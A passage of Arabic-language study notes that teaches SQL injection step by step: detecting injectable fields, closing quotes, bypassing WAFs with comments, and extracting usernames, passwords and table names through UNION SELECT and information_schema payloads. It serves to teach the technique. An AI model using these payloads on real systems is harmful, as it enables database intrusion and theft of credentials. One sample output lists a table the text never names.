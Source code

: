 ```sql
select * from books where year=2020;
```

```sql
select * from books where year=2020 or year=2017;
```

##### لو فى كذا كونديشن - AND هى اللى بتتنفذ الاول وبعد كده OR حتى لو OR مكتوبه الاول 
```sql
select * from books where year=2020 AND sales=1000;
```


كل داتا بيز فيها datatype مختلفة - كل datatype بيتعملها presentation بطريقة مختلفة.

| **ارقام**                                                                                                                          | **مش ارقام**                                                                                    |
| ---------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------- |
| بتكون بنسبة كبيرة من غير qout                                                                                                      | هنا لازم يكون فى quote                                                                          |
| يعنى زى الامثلة اللى مكتوبه فى الكويري فوق                                                                                         | `select * from books where author='islam';`                                                     |
| وده هيخلى اى عملية حسابية هتتكتب جوا الكود تتنفذ بالفعل<br>`select * from books where year=2020-20;`<br>الكويري دى هيخلى year=2000 | فى MariaDB - MySql<br>لو جينا عند الاسترينج وكتبناه كده <br>`'is' 'lam'`<br>هيعملها concatenate |
| هنا هنستفاد بالموضوع ده واحنا بنتيست ع الثغرة                                                                                      | فى PostgreSQL - Oracle<br>عشان يتعملها concatenate بنعمل كده <br>`'is'`\|\|`'lam'`              |
|                                                                                                                                    | فى SQLserver - microsoft sql server<br>بتكون كده `'is'+'lam'`                                   |
 كل اللى فى الجدول ده بنجربه علشان نـ Detect هل فى sql injection ولا لاء 
 وبردو هنعرف نوع الداتا بيز من خلال طريقة الــ concatenate اللى هتتقبل 
 
 منجحش الكلام ده ؟ -- يبقى هنتجه الى AND, OR
 بس نخلى بالنا واحنا بنتعامل مع الاسترينج ان هيكون فى سينجل او دوبل كوت فى الاخر 
 ف هنا لازم نستخدم الكومنت او نظبط الكويرى بتاعتنا ونحاول نقفل السينجل او الدوبل كوت اللى فى الاخر 
 كده مثلا 
```sql
--        ' AND 1='1
 select * from books where author='islam' AND 1='1';
```
هنا حطينا سينجل كوت قبل الواحد الاخير عشان يقفل الكوت بتاعت الكويري الاساسيه 
ودى اللى بنعتمد عليها فى الاول علشان لو الكويرى معقده وليها تكمله منعملش كومنت لحاجه احنا محتاجنها علشان الكويري تشتغل بدون اخطاء
 
والكومنت فى MySql 
 Single Line: `-- xxxxxxxxx`
 Multiline: `/* xxxxxxxxxxxxxx */`
 وفى بعض الاوقات بنستخدم Multiline Comment  على انه Space `/**/` علشان نعدى من WAF

---
### ازاى نــ Exploit SQL injection
### استخدام UNION
اللى لازم نعرفه عن union قبل ما نستخدمها هى ان 
1. لازم عدد الأعمدة في الاستعلام الأول (قبل UNION) يساوي عدد الأعمدة في الاستعلام الثاني. لو مش متساوي، الاستعلام هيفشل.
2. لازم أنواع البيانات تكون متوافقة (مثلاً title و username لازم يكونوا نصوص لو الاستعلام هيشتغل).

### مثال :-
**هنفترض إن فيه موقع فيه حقل بحث**:
- لما بتكتب كلمة في البحث (مثلاً search_term)، الموقع بيعمل استعلام زي:
```sql
SELECT title, 'Book' AS item_type FROM Books WHERE title LIKE '%search_term%';
```

هنجرب نستخدم union 
```sql
search_term' UNION SELECT username, password FROM users --
```
ف هنا الكويري هتتحول لكده لو فعلا مكان السيرش ده فيه ثغره 
```sql
SELECT title, 'Book' AS item_type FROM Books WHERE title LIKE '%search_term%' 
UNION 
SELECT username, password FROM users --
```
وبردو الكويرى مش هتشتغل اللا لو نوع الداتا اللى فى username نفس نوع الداتا اللى فى item_type
و نوع الداتا اللى فى  password نفس نوع الداتا اللى فى title

### تغير نوع الداتا 
طيب ولو فرضنا ان نوع الداتا فى password معمول INT 
ممكن نعمل حاجه زى كده ونحول نوع الداتا اللى موجود علشان الكويري تتنفذ
```sql
' UNION SELECT username, CAST(password AS CHAR) FROM users --
```

---
### معرفة عدد الاعمده
#### 1.  **طريقة ORDER BY**:

- **الفكرة**:
    - أمر ORDER BY بيُستخدم لترتيب النتايج بناءً على عمود معين. لو حاولت تستخدم ORDER BY برقم عمود أكبر من عدد الأعمدة الموجودة في الاستعلام، قاعدة البيانات هترجع خطأ.
    - بتزوّد الرقم تدريجيًا لحد ما تلاقي الرقم اللي يسبب خطأ، وبالتالي تعرف إن عدد الأعمدة هو الرقم اللي كان شغال قبل الخطأ.
    - زى كده `' ORDER BY 1 --` // `' ORDER BY 2 --` // `' ORDER BY 3 --` 

#### 2. **طريقة UNION SELECT مع قيم وهمية**:

- **الفكرة**:
    - تحقن استعلام UNION SELECT مع عدد أعمدة زيادة تدريجيًا، وتستخدم قيم وهمية (زي 1, 2, 3, إلخ) عشان تتأكد إن الاستعلام بيشتغل.
    - لو عدد الأعمدة صح، الاستعلام هينجح وهيظهر نتايج. لو العدد غلط، هيحصل خطأ أو مافيش نتايج.

`' UNION SELECT 1 --`
لو فشل هنجرب
`' UNION SELECT 1, 2 --`
ولو عرفت إن الأعمدة بتتعامل مع نصوص (strings)، جرب تستخدم قيم زي 'test1', 'test2' بدل الأرقام
وهكذا لغاية ما يطلعلنا قيمة وبكده نكون عرفنا عدد الاعمده 


---

### معرفة اسامى الجداول واسامى الاعمده:
عندنا حاجه اسمها #information_schema دى قاعدة بيانات افتراضية موجودة في أنظمة إدارة قواعد البيانات
بيكون فيها بيانات كتير زى جميع اسامى ( الجداول - الداتابيز - الاعمده اللى جوا الجداول )

واللى يهمنا فى الموضوع ده هو جدولين فى الداتابيز دي 
الاول وهو information_schema.tables
والثانى information_schema.columns

بعد ما عرفنا عدد الاعمده بالطريقة اللى فوق هنبتدى نشوف الاسامى بتاعة جداول الداتا بيز اللى احنا فيها 
ولازم الكويرى اللى هنحطها كــ بيلود تكون بنفس عدد الاعمده اللى موجوده فى الاستعلام الاساسي بتاع الموقع 

والكويرى هتكون كالاتى 
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE();
``` 

الجزء ده table_schema = DATABASE هو اللى بيحددلنا انه يبحث فى نفس الداتا بيز اللى احنا فيها 

هي اصلا الـ information_schema دى قاعدة بيانات الجداول اللى فيها من ضمنها جدول
اسمه tables وده اللى بيكون متجمع فيه كل الجداول اللى فى كل الداتا بيز اللى على السيرفر   
وده بندخله عن طريق الجزء ده information_schema.tables 
وبعد كده بنحدد ان العمود اللى اسمه table_schema واللى هو بيبقى فى اسماء الداتا بيز 
يعرضلنا فقط اسامى الجداول اللى فى الداتا بيز الحاليه.

لازم بقا ندمج الكويرى دى بعد معرفة عدد الاعمدة اللى موجوده فى الاستعلام الاساسى 
وليكن مثلا 3 اعمده .. يبقى paylod هتكون كده 

```sql
search_term' UNION SELECT table_name, 'test1', 'test2' FROM information_schema.tables WHERE table_schema = DATABASE() --
```

لو قاعدة البيانات الحالية فيها الجداول Books, employees, user_system 
النتيجة هتكون شكلها كده:
```
Book        | test1 | test2
employees   | test1 | test2
user_system | test1 | test2
orders      | test1 | test2
```


